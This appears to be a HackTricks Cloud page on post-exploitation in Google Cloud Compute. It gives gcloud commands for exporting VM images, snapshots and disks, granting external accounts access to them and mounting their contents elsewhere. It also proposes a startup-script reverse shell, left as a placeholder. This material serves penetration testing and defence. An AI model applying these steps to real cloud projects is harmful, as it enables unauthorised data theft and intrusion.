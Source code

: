 # GCP - Compute Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

For more information about Compute and VPC (Networking) check:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

This would allow an attacker to **access the data contained inside already existing images** or **create new images of running VMs** and access their data without having access to the running VM.

It's possible to export a VM image to a bucket and then download it and mount it locally with the command:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

* oles/compute.storageAdmin
* roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

It's not possible to directly export snapshots and disks, but it's possible to **transform a snapshot in a disk, a disk in an image** and following the **previous section**, export that image to inspect it locally

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

With the goal of accessing the **data stored in an image** or inside a **running VM** from where an attacker **has created an image,** it possible to grant an external account access over the image:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
  --member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
  --role='roles/compute.imageUser'
```

and then create a new VM from it:

```bash
gcloud compute instances create [INSTANCE_NAME] \
  --project=[TARGET_PROJECT_ID] \
  --zone=[ZONE] \
  --image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

If you could not give your external account access over image, you could launch a VM using that image in the victims project and **make the metadata execute a reverse shell** to access the image adding the param:

```bash
    --metadata startup-script='#! /bin/bash
        echo "hello"; <reverse shell>'
```

### Inspect a Snapshot/Disk attaching it to a VM

With the goal of accessing the **data stored in a disk or a snapshot, you could transform the snapshot into a disk, a disk into an image and follow th preivous steps.**

Or you could **grant an external account access** over the disk (if the starting point is a snapshot give access over the snapshot or create a disk from it):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
  --member='user:[USER_EMAIL]' \
  --role='roles/compute.storageAdmin'
```

**Attach the disk** to an instance:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
  --disk [DISK_NAME] \
  --zone [ZONE]
```

Mount the disk inside the VM:

1.  **SSH into the VM**:

    ```sh
    gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
    ```
2. **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Format and Mount the Disk** (if it's a new or raw disk):
   *   Create a mount point:

       ```sh
       sudo mkdir -p /mnt/disks/[MOUNT_DIR]
       ```
   *   Mount the disk:

       ```sh
       sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
       ```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

